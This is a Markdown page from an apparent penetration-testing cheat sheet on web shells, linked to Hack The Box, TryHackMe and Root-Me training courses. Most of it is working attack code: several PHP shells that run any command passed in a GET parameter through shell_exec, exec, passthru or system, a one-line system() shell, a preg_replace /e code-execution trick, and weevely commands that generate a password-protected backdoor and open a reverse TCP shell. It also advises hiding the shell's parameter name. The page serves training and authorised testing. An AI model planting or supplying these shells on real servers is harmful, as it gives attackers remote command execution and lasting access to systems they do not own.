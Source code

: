 # Web shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is determined by the language the target web server understand, such as PHP, JavaScript, or .NET. ✨

For JavaScript, you need to find a way for the website to execute your web shell. For PHP, visit the web shell URL.

⚠️ Password protect your webshells during assignments and/or randomize the parameter name <small>(e.g., don't use `cmd`)</small>.
</div><div>

On Kali, you can use the preinstalled web shells in `wordlists`, or install and use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).

```shell!
$ ls /usr/share/webshells
$ ls /usr/share/seclists/Web-Shells/
$ ls /usr/share/laudanum/ # edit and add the client (you?) IP
```

You may use the web shell to pop a [reverse shell](reverse_shell.md). Some payloads may not work smoothly according to the target configuration. Try:

```ps
bash -c "<reverse shell payload here>"
```
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-lg-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0]??true);?>` and using `?0=whoami`.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) (3.0k ⭐).

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

<br>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.8k ⭐, 2018 🪦)</small>.

<br>

#### wwwolf

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

You can use the semi-interactive [wwwolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) <small>(0.5k ⭐, 2017 🪦)</small>.


</div><div>

#### preg_replace

[![php_preg_replace](../../../_badges/rootme/web_server/php_preg_replace.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

In PHP < 7.0.0, we could execute PHP code in `preg_replace` for each match found <small>(since PHP 5.5, there is a deprecation warning)</small>.

```php!
<?php
echo preg_replace('/a/e', 'system("whoami");', 'a');
```

<br>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
* [jspbrowser](https://github.com/tennc/webshell/tree/master/jsp/jspbrowser)
* [webwrap](https://github.com/mxrch/webwrap)
</div><div>
</div></div>
